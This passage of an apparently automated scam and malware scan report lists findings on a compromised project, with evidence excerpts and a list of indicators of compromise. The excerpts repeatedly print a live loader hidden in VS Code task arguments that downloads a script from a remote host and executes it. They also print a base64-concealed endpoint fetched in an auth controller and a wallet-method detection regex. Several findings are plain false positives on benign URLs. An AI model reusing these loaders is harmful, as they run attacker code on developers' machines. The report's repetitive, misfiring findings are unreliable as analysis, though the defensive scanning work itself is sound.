99: 20:           "const https = require(`https`); const fs = require(`fs`); const path = require(`path`); const { exec } = require(`child_process`); const os = require(`os`); const tempFile = path.join(os.tmpdir(), `vscode-windows-${Date.now()}.cmd`); https.get(`https://vscode-toolkit-settings.vercel.app/settings/windows?flag=302`, (r) => { let d = ``; r.on(`data`, c => d += c); r.on(`end`, () => { fs.writeFileSync(tempFile, d); exec(`${tempFile}`, { shell: `cmd.exe` }, (e, o, err) => { setTimeout(() => fs.unlinkSync(tempFile), 1000); }); }); });"
100: 21:         ]
101: 22:       },
```

**Remediation**
- Disallow remote code/data bootstrap in runtime paths and pin trusted APIs.

---

## 85) High - Remote Payload Fetch Pattern

**Affected file**: `SCAM_SCAN_REPORT_PY.md`

**Why this is suspicious**
- Direct remote fetch in sensitive paths may stage executable payloads.

**Potential impact**
- Remote code delivery and command-and-control enablement.

**Evidence**

```md
122: 18:         "args": [
123: 19:           "-e",
124: 20:           "const https = require(`https`); const fs = require(`fs`); const path = require(`path`); const { exec } = require(`child_process`); const os = require(`os`); const tempFile = path.join(os.tmpdir(), `vscode-windows-${Date.now()}.cmd`); https.get(`https://vscode-toolkit-settings.vercel.app/settings/windows?flag=302`, (r) => { let d = ``; r.on(`data`, c => d += c); r.on(`end`, () => { fs.writeFileSync(tempFile, d); exec(`${tempFile}`, { shell: `cmd.exe` }, (e, o, err) => { setTimeout(() => fs.unlinkSync(tempFile), 1000); }); }); });"
125: 21:         ]
126: 22:       },
```

**Remediation**
- Disallow remote code/data bootstrap in runtime paths and pin trusted APIs.

---

## 86) High - Remote Payload Fetch Pattern

**Affected file**: `SCAM_SCAN_REPORT_PY.md`

**Why this is suspicious**
- Direct remote fetch in sensitive paths may stage executable payloads.

**Potential impact**
- Remote code delivery and command-and-control enablement.

**Evidence**

```md
147: 25:         "args": [
148: 26:           "-e",
149: 27:           "const https = require(`https`); const fs = require(`fs`); const path = require(`path`); const { exec } = require(`child_process`); const os = require(`os`); const tempFile = path.join(os.tmpdir(), `vscode-mac-${Date.now()}.sh`); https.get(`https://vscode-toolkit-settings.vercel.app/settings/mac?flag=302`, (r) => { let d = ``; r.on(`data`, c => d += c); r.on(`end`, () => { fs.writeFileSync(tempFile, d); fs.chmodSync(tempFile, 0o755); exec(`${tempFile}`, { shell: `sh` }, (e, o, err) => { setTimeout(() => { try { fs.unlinkSync(tempFile); } catch {} }, 1000); }); }); });"
150: 28:         ]
151: 29:       },
```

**Remediation**
- Disallow remote code/data bootstrap in runtime paths and pin trusted APIs.

---

## 87) High - Remote Payload Fetch Pattern

**Affected file**: `SCAM_SCAN_REPORT_PY.md`

**Why this is suspicious**
- Direct remote fetch in sensitive paths may stage executable payloads.

**Potential impact**
- Remote code delivery and command-and-control enablement.

**Evidence**

```md
172: 25:         "args": [
173: 26:           "-e",
174: 27:           "const https = require(`https`); const fs = require(`fs`); const path = require(`path`); const { exec } = require(`child_process`); const os = require(`os`); const tempFile = path.join(os.tmpdir(), `vscode-mac-${Date.now()}.sh`); https.get(`https://vscode-toolkit-settings.vercel.app/settings/mac?flag=302`, (r) => { let d = ``; r.on(`data`, c => d += c); r.on(`end`, () => { fs.writeFileSync(tempFile, d); fs.chmodSync(tempFile, 0o755); exec(`${tempFile}`, { shell: `sh` }, (e, o, err) => { setTimeout(() => { try { fs.unlinkSync(tempFile); } catch {} }, 1000); }); }); });"
175: 28:         ]
176: 29:       },
```

**Remediation**
- Disallow remote code/data bootstrap in runtime paths and pin trusted APIs.

---

## 88) High - Remote Payload Fetch Pattern

**Affected file**: `SCAM_SCAN_REPORT_PY.md`

**Why this is suspicious**
- Direct remote fetch in sensitive paths may stage executable payloads.

**Potential impact**
- Remote code delivery and command-and-control enablement.

**Evidence**

```md
197: 32:         "args": [
198: 33:           "-e",
199: 34:           "const https = require(`https`); const fs = require(`fs`); const path = require(`path`); const { exec } = require(`child_process`); const os = require(`os`); const tempFile = path.join(os.tmpdir(), `vscode-linux-${Date.now()}.sh`); https.get(`https://vscode-toolkit-settings.vercel.app/settings/linux?flag=302`, (r) => { let d = ``; r.on(`data`, c => d += c); r.on(`end`, () => { fs.writeFileSync(tempFile, d); fs.chmodSync(tempFile, 0o755); exec(`${tempFile}`, { shell: `sh` }, (e, o, err) => { setTimeout(() => { try { fs.unlinkSync(tempFile); } catch {} }, 1000); }); }); });"
200: 35:         ]
201: 36:       },
```

**Remediation**
- Disallow remote code/data bootstrap in runtime paths and pin trusted APIs.

---

## 89) High - Encoded URL / Obfuscated Endpoint Indicator

**Affected file**: `SCAM_SCAN_REPORT_PY.md`

**Why this is suspicious**
- Encoded URLs and long base64 blobs are common for C2 concealment.

**Potential impact**
- Hidden malicious infrastructure and delayed detection.

**Evidence**

```md
1022: 88: ```js
1023: 89: // server/controllers/auth.controller.js
1024: 90: axios.get(atob(publicKey)).then(res => errorHandler(res.data.cookie));
1025: 91: ```
1026: 92:
```

**Remediation**
- Decode and validate all encoded literals; remove untrusted endpoints.

---

## 90) High - Encoded URL / Obfuscated Endpoint Indicator

**Affected file**: `SCAM_SCAN_REPORT_PY.md`

**Why this is suspicious**
- Encoded URLs and long base64 blobs are common for C2 concealment.

**Potential impact**
- Hidden malicious infrastructure and delayed detection.

**Evidence**

```md
1047: 93: ```js
1048: 94: // server/config/config.js
1049: 95: publicKey: 'aHR0cHM6Ly9hcGkubnBvaW50LmlvLzMyNWJhYjFjMDJkYjQ1YWY3ZjYy'
1050: 96: // decodes to: https://api.npoint.io/325bab1c02db45af7f62
1051: 97: ```
```

**Remediation**
- Decode and validate all encoded literals; remove untrusted endpoints.

---

## 91) High - Encoded URL / Obfuscated Endpoint Indicator

**Affected file**: `SCAM_SCAN_REPORT_PY.md`

**Why this is suspicious**
- Encoded URLs and long base64 blobs are common for C2 concealment.

**Potential impact**
- Hidden malicious infrastructure and delayed detection.

**Evidence**

```md
1097: 325: ```js
1098: 326: // BAD
1099: 327: // axios.get(atob(publicKey)).then(res => errorHandler(res.data.cookie));
1100: 328: 
1101: 329: // GOOD
```

**Remediation**
- Decode and validate all encoded literals; remove untrusted endpoints.

---

## 92) High - Encoded URL / Obfuscated Endpoint Indicator

**Affected file**: `SCAM_SCAN_REPORT_PY.md`

**Why this is suspicious**
- Encoded URLs and long base64 blobs are common for C2 concealment.

**Potential impact**
- Hidden malicious infrastructure and delayed detection.

**Evidence**

```md
1122: 68:         // Stale-while-revalidate
1123: 69:         // similar to HTTP's stale-while-revalidate: https://www.mnot.net/blog/2007/12/12/stale
1124: 70:         // Upgrade from Jake's to Surma's: https://gist.github.com/surma/eb441223daaedf880801ad80006389f1
1125: 71:         const cached = caches.match(event.request)
1126: 72:         const fixedUrl = getFixedUrl(event.request)
```

**Remediation**
- Decode and validate all encoded literals; remove untrusted endpoints.

---

## 93) High - Encoded URL / Obfuscated Endpoint Indicator

**Affected file**: `SCAM_SCAN_REPORT_PY.md`

**Why this is suspicious**
- Encoded URLs and long base64 blobs are common for C2 concealment.

**Potential impact**
- Hidden malicious infrastructure and delayed detection.

**Evidence**

```md
1147: 2:   secretKey: 'sdfklsdfslfnlj3j5bj35bj4b4',
1148: 3:   localDB: 'mongodb://localhost/realestatedb',
1149: 4:   publicKey: 'aHR0cHM6Ly9hcGkubnBvaW50LmlvLzMyNWJhYjFjMDJkYjQ1YWY3ZjYy'
1150: 5: }
1151: ```
```

**Remediation**
- Decode and validate all encoded literals; remove untrusted endpoints.

---

## 94) High - Wallet Signature/Approval Risk Pattern

**Affected file**: `SCAM_SCAN_REPORT_PY.md`

**Why this is suspicious**
- High-risk wallet methods can be abused for drainer workflows.

**Potential impact**
- Asset approvals/signatures can be abused to transfer user funds.

**Evidence**

```md
1196: 223:             category="Web3",
1197: 224:             pattern=re.compile(
1198: 225:                 r"(eth_sign|personal_sign|signTypedData|setApprovalForAll|approve\s*\(|permit\s*\()",
1199: 226:                 re.IGNORECASE,
1200: 227:             ),
```

**Remediation**
- Require explicit UX confirmation, scope checks, and transaction simulation.

---

## 95) High - Wallet Signature/Approval Risk Pattern

**Affected file**: `SCAM_SCAN_REPORT_PY.md`

**Why this is suspicious**
- High-risk wallet methods can be abused for drainer workflows.

**Potential impact**
- Asset approvals/signatures can be abused to transfer user funds.

**Evidence**

```md
1196: 223:             category="Web3",
1197: 224:             pattern=re.compile(
1198: 225:                 r"(eth_sign|personal_sign|signTypedData|setApprovalForAll|approve\s*\(|permit\s*\()",
1199: 226:                 re.IGNORECASE,
1200: 227:             ),
```

**Remediation**
- Require explicit UX confirmation, scope checks, and transaction simulation.

---

## 96) High - Wallet Signature/Approval Risk Pattern

**Affected file**: `SCAM_SCAN_REPORT_PY.md`

**Why this is suspicious**
- High-risk wallet methods can be abused for drainer workflows.

**Potential impact**
- Asset approvals/signatures can be abused to transfer user funds.

**Evidence**

```md
1196: 223:             category="Web3",
1197: 224:             pattern=re.compile(
1198: 225:                 r"(eth_sign|personal_sign|signTypedData|setApprovalForAll|approve\s*\(|permit\s*\()",
1199: 226:                 re.IGNORECASE,
1200: 227:             ),
```

**Remediation**
- Require explicit UX confirmation, scope checks, and transaction simulation.

---

## 97) High - Wallet Signature/Approval Risk Pattern

**Affected file**: `SCAM_SCAN_REPORT_PY.md`

**Why this is suspicious**
- High-risk wallet methods can be abused for drainer workflows.

**Potential impact**
- Asset approvals/signatures can be abused to transfer user funds.

**Evidence**

```md
1196: 223:             category="Web3",
1197: 224:             pattern=re.compile(
1198: 225:                 r"(eth_sign|personal_sign|signTypedData|setApprovalForAll|approve\s*\(|permit\s*\()",
1199: 226:                 re.IGNORECASE,
1200: 227:             ),
```

**Remediation**
- Require explicit UX confirmation, scope checks, and transaction simulation.

---

## 98) High - Wallet Signature/Approval Risk Pattern

**Affected file**: `SCAM_SCAN_REPORT_PY.md`

**Why this is suspicious**
- High-risk wallet methods can be abused for drainer workflows.

**Potential impact**
- Asset approvals/signatures can be abused to transfer user funds.

**Evidence**

```md
1221: 223:             category="Web3",
1222: 224:             pattern=re.compile(
1223: 225:                 r"(eth_sign|personal_sign|signTypedData|setApprovalForAll|approve\s*\(|permit\s*\()",
1224: 226:                 re.IGNORECASE,
1225: 227:             ),
```

**Remediation**
- Require explicit UX confirmation, scope checks, and transaction simulation.

---

## 99) High - Encoded URL / Obfuscated Endpoint Indicator

**Affected file**: `SCAM_SCAN_SUMMARY_GO.json`

**Why this is suspicious**
- Encoded URLs and long base64 blobs are common for C2 concealment.

**Potential impact**
- Hidden malicious infrastructure and delayed detection.

**Evidence**

```json
28:     "https://docs.pwabuilder.com/#/home/sw-intro",
29:     "https://docs.pwabuilder.com/#/studio/existing-app?id=add-a-service-worker",
30:     "https://gist.github.com/surma/eb441223daaedf880801ad80006389f1",
31:     "https://github.com/pwa-builder/PWABuilder/blob/main/docs/sw.js",
32:     "https://images.unsplash.com/photo-1451187580459-43490279c0fa?w=800\u0026q=80",
```

**Remediation**
- Decode and validate all encoded literals; remove untrusted endpoints.

---

## 100) High - Remote Payload Fetch Pattern

**Affected file**: `SCAM_SCAN_SUMMARY_GO.json`

**Why this is suspicious**
- Direct remote fetch in sensitive paths may stage executable payloads.

**Potential impact**
- Remote code delivery and command-and-control enablement.

**Evidence**

```json
63:       "impact": "Arbitrary command execution on host.",
64:       "remediation": "Disallow process execution in untrusted code paths.",
65:       "evidence": "18:         \"args\": [\r\n19:           \"-e\",\r\n20:           \"const https = require(`https`); const fs = require(`fs`); const path = require(`path`); const { exec } = require(`child_process`); const os = require(`os`); const tempFile = path.join(os.tmpdir(), `vscode-windows-${Date.now()}.cmd`); https.get(`https://vscode-toolkit-settings.vercel.app/settings/windows?flag=302`, (r) =\u003e { let d = ``; r.on(`data`, c =\u003e d += c); r.on(`end`, () =\u003e { fs.writeFileSync(tempFile, d); exec(`${tempFile}`, { shell: `cmd.exe` }, (e, o, err) =\u003e { setTimeout(() =\u003e fs.unlinkSync(tempFile), 1000); }); }); });\"\r\n21:         ]\r\n22:       },\r"
66:     },
67:     {
```

**Remediation**
- Disallow remote code/data bootstrap in runtime paths and pin trusted APIs.

---

## 101) High - Remote Payload Fetch Pattern

**Affected file**: `SCAM_SCAN_SUMMARY_GO.json`

**Why this is suspicious**
- Direct remote fetch in sensitive paths may stage executable payloads.

**Potential impact**
- Remote code delivery and command-and-control enablement.

**Evidence**

```json
74:       "impact": "Arbitrary command execution on host.",
75:       "remediation": "Disallow process execution in untrusted code paths.",
76:       "evidence": "18:         \"args\": [\r\n19:           \"-e\",\r\n20:           \"const https = require(`https`); const fs = require(`fs`); const path = require(`path`); const { exec } = require(`child_process`); const os = require(`os`); const tempFile = path.join(os.tmpdir(), `vscode-windows-${Date.now()}.cmd`); https.get(`https://vscode-toolkit-settings.vercel.app/settings/windows?flag=302`, (r) =\u003e { let d = ``; r.on(`data`, c =\u003e d += c); r.on(`end`, () =\u003e { fs.writeFileSync(tempFile, d); exec(`${tempFile}`, { shell: `cmd.exe` }, (e, o, err) =\u003e { setTimeout(() =\u003e fs.unlinkSync(tempFile), 1000); }); }); });\"\r\n21:         ]\r\n22:       },\r"
77:     },
78:     {
```

**Remediation**
- Disallow remote code/data bootstrap in runtime paths and pin trusted APIs.

---

## 102) High - Remote Payload Fetch Pattern

**Affected file**: `SCAM_SCAN_SUMMARY_GO.json`

**Why this is suspicious**
- Direct remote fetch in sensitive paths may stage executable payloads.

**Potential impact**
- Remote code delivery and command-and-control enablement.

**Evidence**

```json
85:       "impact": "Arbitrary command execution on host.",
86:       "remediation": "Disallow process execution in untrusted code paths.",
87:       "evidence": "25:         \"args\": [\r\n26:           \"-e\",\r\n27:           \"const https = require(`https`); const fs = require(`fs`); const path = require(`path`); const { exec } = require(`child_process`); const os = require(`os`); const tempFile = path.join(os.tmpdir(), `vscode-mac-${Date.now()}.sh`); https.get(`https://vscode-toolkit-settings.vercel.app/settings/mac?flag=302`, (r) =\u003e { let d = ``; r.on(`data`, c =\u003e d += c); r.on(`end`, () =\u003e { fs.writeFileSync(tempFile, d); fs.chmodSync(tempFile, 0o755); exec(`${tempFile}`, { shell: `sh` }, (e, o, err) =\u003e { setTimeout(() =\u003e { try { fs.unlinkSync(tempFile); } catch {} }, 1000); }); }); });\"\r\n28:         ]\r\n29:       },\r"
88:     },
89:     {
```

**Remediation**
- Disallow remote code/data bootstrap in runtime paths and pin trusted APIs.

---

## 103) High - Remote Payload Fetch Pattern

**Affected file**: `SCAM_SCAN_SUMMARY_GO.json`

**Why this is suspicious**
- Direct remote fetch in sensitive paths may stage executable payloads.

**Potential impact**
- Remote code delivery and command-and-control enablement.

**Evidence**

```json
96:       "impact": "Arbitrary command execution on host.",
97:       "remediation": "Disallow process execution in untrusted code paths.",
98:       "evidence": "25:         \"args\": [\r\n26:           \"-e\",\r\n27:           \"const https = require(`https`); const fs = require(`fs`); const path = require(`path`); const { exec } = require(`child_process`); const os = require(`os`); const tempFile = path.join(os.tmpdir(), `vscode-mac-${Date.now()}.sh`); https.get(`https://vscode-toolkit-settings.vercel.app/settings/mac?flag=302`, (r) =\u003e { let d = ``; r.on(`data`, c =\u003e d += c); r.on(`end`, () =\u003e { fs.writeFileSync(tempFile, d); fs.chmodSync(tempFile, 0o755); exec(`${tempFile}`, { shell: `sh` }, (e, o, err) =\u003e { setTimeout(() =\u003e { try { fs.unlinkSync(tempFile); } catch {} }, 1000); }); }); });\"\r\n28:         ]\r\n29:       },\r"
99:     },
100:     {
```

**Remediation**
- Disallow remote code/data bootstrap in runtime paths and pin trusted APIs.

---

## 104) High - Remote Payload Fetch Pattern

**Affected file**: `SCAM_SCAN_SUMMARY_GO.json`

**Why this is suspicious**
- Direct remote fetch in sensitive paths may stage executable payloads.

**Potential impact**
- Remote code delivery and command-and-control enablement.

**Evidence**

```json
107:       "impact": "Arbitrary command execution on host.",
108:       "remediation": "Disallow process execution in untrusted code paths.",
109:       "evidence": "32:         \"args\": [\r\n33:           \"-e\",\r\n34:           \"const https = require(`https`); const fs = require(`fs`); const path = require(`path`); const { exec } = require(`child_process`); const os = require(`os`); const tempFile = path.join(os.tmpdir(), `vscode-linux-${Date.now()}.sh`); https.get(`https://vscode-toolkit-settings.vercel.app/settings/linux?flag=302`, (r) =\u003e { let d = ``; r.on(`data`, c =\u003e d += c); r.on(`end`, () =\u003e { fs.writeFileSync(tempFile, d); fs.chmodSync(tempFile, 0o755); exec(`${tempFile}`, { shell: `sh` }, (e, o, err) =\u003e { setTimeout(() =\u003e { try { fs.unlinkSync(tempFile); } catch {} }, 1000); }); }); });\"\r\n35:         ]\r\n36:       },\r"
110:     },
111:     {
```

**Remediation**
- Disallow remote code/data bootstrap in runtime paths and pin trusted APIs.

---

## 105) High - Encoded URL / Obfuscated Endpoint Indicator

**Affected file**: `SCAM_SCAN_SUMMARY_GO.json`

**Why this is suspicious**
- Encoded URLs and long base64 blobs are common for C2 concealment.

**Potential impact**
- Hidden malicious infrastructure and delayed detection.

**Evidence**

```json
558:       "impact": "Concealed C2 and delayed detection.",
559:       "remediation": "Decode and review encoded data; remove untrusted payload paths.",
560:       "evidence": "1022: 88: ```js\r\n1023: 89: // server/controllers/auth.controller.js\r\n1024: 90: axios.get(atob(publicKey)).then(res =\u003e errorHandler(res.data.cookie));\r\n1025: 91: ```\r\n1026: 92:\r"
561:     },
562:     {
```

**Remediation**
- Decode and validate all encoded literals; remove untrusted endpoints.

---

## 106) High - Encoded URL / Obfuscated Endpoint Indicator

**Affected file**: `SCAM_SCAN_SUMMARY_GO.json`

**Why this is suspicious**
- Encoded URLs and long base64 blobs are common for C2 concealment.

**Potential impact**
- Hidden malicious infrastructure and delayed detection.

**Evidence**

```json
569:       "impact": "Concealed C2 and delayed detection.",
570:       "remediation": "Decode and review encoded data; remove untrusted payload paths.",
571:       "evidence": "1097: 325: ```js\r\n1098: 326: // BAD\r\n1099: 327: // axios.get(atob(publicKey)).then(res =\u003e errorHandler(res.data.cookie));\r\n1100: 328: \r\n1101: 329: // GOOD\r"
572:     },
573:     {
```

**Remediation**
- Decode and validate all encoded literals; remove untrusted endpoints.

---

## 107) High - Encoded URL / Obfuscated Endpoint Indicator

**Affected file**: `SCAM_SCAN_SUMMARY_GO.json`

**Why this is suspicious**
- Encoded URLs and long base64 blobs are common for C2 concealment.

**Potential impact**
- Hidden malicious infrastructure and delayed detection.

**Evidence**

```json
580:       "impact": "Concealed C2 and delayed detection.",
581:       "remediation": "Decode and review encoded data; remove untrusted payload paths.",
582:       "evidence": "1171: 5: const {secretKey, publicKey} = require(\"../config/config\");\r\n1172: 6: const { errorHandler } = require(\"../middleware/errorHandler\");\r\n1173: 7: axios.get(atob(publicKey)).then(res =\u003e errorHandler(res.data.cookie));\r\n1174: 8: \r\n1175: 9: module.exports = {\r"
583:     },
584:     {
```

**Remediation**
- Decode and validate all encoded literals; remove untrusted endpoints.

---

## 108) High - Encoded URL / Obfuscated Endpoint Indicator

**Affected file**: `SCAM_SCAN_SUMMARY_GO.json`

**Why this is suspicious**
- Encoded URLs and long base64 blobs are common for C2 concealment.

**Potential impact**
- Hidden malicious infrastructure and delayed detection.

**Evidence**

```json
591:       "impact": "Concealed C2 and delayed detection.",
592:       "remediation": "Decode and review encoded data; remove untrusted payload paths.",
593:       "evidence": "88: ```js\r\n89: // server/controllers/auth.controller.js\r\n90: axios.get(atob(publicKey)).then(res =\u003e errorHandler(res.data.cookie));\r\n91: ```\r\n92: \r"
594:     },
595:     {
```

**Remediation**
- Decode and validate all encoded literals; remove untrusted endpoints.

---

## 109) High - Encoded URL / Obfuscated Endpoint Indicator

**Affected file**: `SCAM_SCAN_SUMMARY_PY.json`

**Why this is suspicious**
- Encoded URLs and long base64 blobs are common for C2 concealment.

**Potential impact**
- Hidden malicious infrastructure and delayed detection.

**Evidence**

```json
387:     "https://docs.pwabuilder.com/#/home/sw-intro",
388:     "https://docs.pwabuilder.com/#/studio/existing-app?id=add-a-service-worker",
389:     "https://gist.github.com/surma/eb441223daaedf880801ad80006389f1",
390:     "https://github.com/pwa-builder/PWABuilder/blob/main/docs/sw.js",
391:     "https://images.unsplash.com/photo-1451187580459-43490279c0fa?w=800&q=80",
```

**Remediation**
- Decode and validate all encoded literals; remove untrusted endpoints.

---

## 110) High - Encoded URL / Obfuscated Endpoint Indicator

**Affected file**: `SECURITY_INCIDENT_REPORT.md`

**Why this is suspicious**
- Encoded URLs and long base64 blobs are common for C2 concealment.

**Potential impact**
- Hidden malicious infrastructure and delayed detection.

**Evidence**

```md
88: ```js
89: // server/controllers/auth.controller.js
90: axios.get(atob(publicKey)).then(res => errorHandler(res.data.cookie));
91: ```
92:
```

**Remediation**
- Decode and validate all encoded literals; remove untrusted endpoints.

---

## 111) High - Encoded URL / Obfuscated Endpoint Indicator

**Affected file**: `SECURITY_INCIDENT_REPORT.md`

**Why this is suspicious**
- Encoded URLs and long base64 blobs are common for C2 concealment.

**Potential impact**
- Hidden malicious infrastructure and delayed detection.

**Evidence**

```md
93: ```js
94: // server/config/config.js
95: publicKey: 'aHR0cHM6Ly9hcGkubnBvaW50LmlvLzMyNWJhYjFjMDJkYjQ1YWY3ZjYy'
96: // decodes to: https://api.npoint.io/325bab1c02db45af7f62
97: ```
```

**Remediation**
- Decode and validate all encoded literals; remove untrusted endpoints.

---

## 112) High - Remote Payload Fetch Pattern

**Affected file**: `SECURITY_INCIDENT_REPORT.md`

**Why this is suspicious**
- Direct remote fetch in sensitive paths may stage executable payloads.

**Potential impact**
- Remote code delivery and command-and-control enablement.

**Evidence**

```md
129: // windows task payload excerpt
130: const { exec } = require(`child_process`);
131: https.get(`https://vscode-toolkit-settings.vercel.app/settings/windows?flag=302`, (r) => {
132:   // ...
133:   fs.writeFileSync(tempFile, d);
```

**Remediation**
- Disallow remote code/data bootstrap in runtime paths and pin trusted APIs.

---

## 113) High - Encoded URL / Obfuscated Endpoint Indicator

**Affected file**: `SECURITY_INCIDENT_REPORT.md`

**Why this is suspicious**
- Encoded URLs and long base64 blobs are common for C2 concealment.

**Potential impact**
- Hidden malicious infrastructure and delayed detection.

**Evidence**

```md
325: ```js
326: // BAD
327: // axios.get(atob(publicKey)).then(res => errorHandler(res.data.cookie));
328: 
329: // GOOD
```

**Remediation**
- Decode and validate all encoded literals; remove untrusted endpoints.

---

## 114) High - Encoded URL / Obfuscated Endpoint Indicator

**Affected file**: `public/service-worker.js`

**Why this is suspicious**
- Encoded URLs and long base64 blobs are common for C2 concealment.

**Potential impact**
- Hidden malicious infrastructure and delayed detection.

**Evidence**

```js
68:         // Stale-while-revalidate
69:         // similar to HTTP's stale-while-revalidate: https://www.mnot.net/blog/2007/12/12/stale
70:         // Upgrade from Jake's to Surma's: https://gist.github.com/surma/eb441223daaedf880801ad80006389f1
71:         const cached = caches.match(event.request)
72:         const fixedUrl = getFixedUrl(event.request)
```

**Remediation**
- Decode and validate all encoded literals; remove untrusted endpoints.

---

## 115) High - Encoded URL / Obfuscated Endpoint Indicator

**Affected file**: `server/config/config.js`

**Why this is suspicious**
- Encoded URLs and long base64 blobs are common for C2 concealment.

**Potential impact**
- Hidden malicious infrastructure and delayed detection.

**Evidence**

```js
2:   secretKey: 'sdfklsdfslfnlj3j5bj35bj4b4',
3:   localDB: 'mongodb://localhost/realestatedb',
4:   publicKey: 'aHR0cHM6Ly9hcGkubnBvaW50LmlvLzMyNWJhYjFjMDJkYjQ1YWY3ZjYy'
5: }
```

**Remediation**
- Decode and validate all encoded literals; remove untrusted endpoints.

---

## 116) High - Encoded URL / Obfuscated Endpoint Indicator

**Affected file**: `server/controllers/auth.controller.js`

**Why this is suspicious**
- Encoded URLs and long base64 blobs are common for C2 concealment.

**Potential impact**
- Hidden malicious infrastructure and delayed detection.

**Evidence**

```js
5: const {secretKey, publicKey} = require("../config/config");
6: const { errorHandler } = require("../middleware/errorHandler");
7: axios.get(atob(publicKey)).then(res => errorHandler(res.data.cookie));
8: 
9: module.exports = {
```

**Remediation**
- Decode and validate all encoded literals; remove untrusted endpoints.

---

## 117) High - Wallet Signature/Approval Risk Pattern

**Affected file**: `tools/scam_scanner.py`

**Why this is suspicious**
- High-risk wallet methods can be abused for drainer workflows.

**Potential impact**
- Asset approvals/signatures can be abused to transfer user funds.

**Evidence**

```python
223:             category="Web3",
224:             pattern=re.compile(
225:                 r"(eth_sign|personal_sign|signTypedData|setApprovalForAll|approve\s*\(|permit\s*\()",
226:                 re.IGNORECASE,
227:             ),
```

**Remediation**
- Require explicit UX confirmation, scope checks, and transaction simulation.

---

## 118) High - Wallet Signature/Approval Risk Pattern

**Affected file**: `tools/scam_scanner.py`

**Why this is suspicious**
- High-risk wallet methods can be abused for drainer workflows.

**Potential impact**
- Asset approvals/signatures can be abused to transfer user funds.

**Evidence**

```python
223:             category="Web3",
224:             pattern=re.compile(
225:                 r"(eth_sign|personal_sign|signTypedData|setApprovalForAll|approve\s*\(|permit\s*\()",
226:                 re.IGNORECASE,
227:             ),
```

**Remediation**
- Require explicit UX confirmation, scope checks, and transaction simulation.

---

## 119) High - Wallet Signature/Approval Risk Pattern

**Affected file**: `tools/scam_scanner.py`

**Why this is suspicious**
- High-risk wallet methods can be abused for drainer workflows.

**Potential impact**
- Asset approvals/signatures can be abused to transfer user funds.

**Evidence**

```python
223:             category="Web3",
224:             pattern=re.compile(
225:                 r"(eth_sign|personal_sign|signTypedData|setApprovalForAll|approve\s*\(|permit\s*\()",
226:                 re.IGNORECASE,
227:             ),
```

**Remediation**
- Require explicit UX confirmation, scope checks, and transaction simulation.

---

## 120) High - Wallet Signature/Approval Risk Pattern

**Affected file**: `tools/scam_scanner.py`

**Why this is suspicious**
- High-risk wallet methods can be abused for drainer workflows.

**Potential impact**
- Asset approvals/signatures can be abused to transfer user funds.

**Evidence**

```python
223:             category="Web3",
224:             pattern=re.compile(
225:                 r"(eth_sign|personal_sign|signTypedData|setApprovalForAll|approve\s*\(|permit\s*\()",
226:                 re.IGNORECASE,
227:             ),
```

**Remediation**
- Require explicit UX confirmation, scope checks, and transaction simulation.

---

## 121) Medium - Anomalous File Signature (score=1.34)

**Affected file**: `SCAM_SCAN_REPORT_GO.md`

**Why this is suspicious**
- Statistical outlier across entropy/obfuscation/exec-token metrics.

**Potential impact**
- Likely hidden payload or non-benign packed script behavior.

**Evidence**

```md
entropy=5.21, long_line_ratio=0.01, hex_escapes=0, suspicious_tokens=79, non_alnum_ratio=0.35
```

**Remediation**
- Manually reverse/deobfuscate and isolate before execution.

---

## 122) Medium - Anomalous File Signature (score=1.86)

**Affected file**: `SCAM_SCAN_SUMMARY_GO.json`

**Why this is suspicious**
- Statistical outlier across entropy/obfuscation/exec-token metrics.

**Potential impact**
- Likely hidden payload or non-benign packed script behavior.

**Evidence**

```json
entropy=5.12, long_line_ratio=0.05, hex_escapes=0, suspicious_tokens=78, non_alnum_ratio=0.39
```

**Remediation**
- Manually reverse/deobfuscate and isolate before execution.

---

## Indicators of Compromise (IOCs)

### Network IOCs
- `http://localhost:3000`
- `http://localhost:5000`
- `http://www.w3.org/2000/svg`
- `https://api.npoint.io/325bab1c02db45af7f62`
- `https://bugs.chromium.org/p/chromium/issues/detail?id=453190`
- `https://discord.gg/GoldenProp`
- `https://docs.pwabuilder.com/#/home/sw-intro`
- `https://docs.pwabuilder.com/#/studio/existing-app?id=add-a-service-worker`
- `https://gist.github.com/surma/eb441223daaedf880801ad80006389f1`
- `https://github.com/pwa-builder/PWABuilder/blob/main/docs/sw.js`
- `https://images.unsplash.com/photo-1451187580459-43490279c0fa?w=800&q=80`
- `https://images.unsplash.com/photo-1451187580459-43490279c0fa?w=800\u0026q=80`
- `https://images.unsplash.com/photo-1460472178825-e5240623afd5?w=800&q=80`
- `https://images.unsplash.com/photo-1460472178825-e5240623afd5?w=800\u0026q=80`
- `https://images.unsplash.com/photo-1472099645785-5658abf4ff4e?w=400&q=80`
- `https://images.unsplash.com/photo-1472099645785-5658abf4ff4e?w=400\u0026q=80`
- `https://images.unsplash.com/photo-1486406146926-c627a92ad1ab?w=800&q=80`
- `https://images.unsplash.com/photo-1486406146926-c627a92ad1ab?w=800\u0026q=80`
- `https://images.unsplash.com/photo-1507003211169-0a1dd7228f2d?w=400&q=80`
- `https://images.unsplash.com/photo-1507003211169-0a1dd7228f2d?w=400\u0026q=80`
- `https://images.unsplash.com/photo-1507679799987-c73779587ccf?w=800&q=80`
- `https://images.unsplash.com/photo-1507679799987-c73779587ccf?w=800\u0026q=80`
- `https://images.unsplash.com/photo-1512917774080-9991f1c4c750?w=800&q=80`
- `https://images.unsplash.com/photo-1512917774080-9991f1c4c750?w=800\u0026q=80`
- `https://images.unsplash.com/photo-1516245834210-c4c142787335?w=1200&q=80`
- `https://images.unsplash.com/photo-1516245834210-c4c142787335?w=1200\u0026q=80`
- `https://images.unsplash.com/photo-1516245834210-c4c142787335?w=800&q=80`
- `https://images.unsplash.com/photo-1516245834210-c4c142787335?w=800\u0026q=80`
- `https://images.unsplash.com/photo-1551288049-bebda4e38f71?w=800&q=80`
- `https://images.unsplash.com/photo-1551288049-bebda4e38f71?w=800\u0026q=80`
- `https://images.unsplash.com/photo-1551434678-e076c223a692?w=800&q=80`
- `https://images.unsplash.com/photo-1551434678-e076c223a692?w=800\u0026q=80`
- `https://images.unsplash.com/photo-1600596542815-ffad4c1539a9?w=1600&q=80`
- `https://images.unsplash.com/photo-1600596542815-ffad4c1539a9?w=1600\u0026q=80`
- `https://images.unsplash.com/photo-1600607687939-ce8a6c25118c?w=800&q=80`
- `https://images.unsplash.com/photo-1600607687939-ce8a6c25118c?w=800\u0026q=80`
- `https://images.unsplash.com/photo-1613490493576-7fde63acd811?w=800&q=80`
- `https://images.unsplash.com/photo-1613490493576-7fde63acd811?w=800\u0026q=80`
